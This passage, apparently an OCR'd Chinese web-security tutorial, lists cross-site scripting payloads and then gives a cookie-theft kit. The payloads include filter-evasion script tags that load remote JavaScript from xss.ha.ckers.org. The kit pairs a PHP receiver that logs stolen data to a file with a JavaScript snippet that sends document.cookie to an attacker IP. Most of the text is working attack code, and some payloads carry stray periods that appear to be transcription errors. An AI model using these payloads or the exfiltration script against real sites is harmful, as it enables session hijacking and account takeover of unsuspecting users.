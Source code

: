 ```html

getURL("javascript.:alert('XSS')")

a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);

<XML SRC="javascript.:alert('XSS');">

"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"

<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>

<IMG SRC="javascript.:alert('XSS')"

<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```

## 5、XSS利用

**盗取COOKIE**

接收cookie代码

xss.php

```php
<?php
    @ini_set('display_errors',1);
    $str = $_GET['joke'];
    $filePath = "joke.php";
	$handler = fopen($filePath, "a");
    fwrite($handler, $str);
    fclose($handler);
?>
```

xss.js

```php
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://192.168.31.125/xss.php?joke='+encodeURIComponent(document.cookie);
```

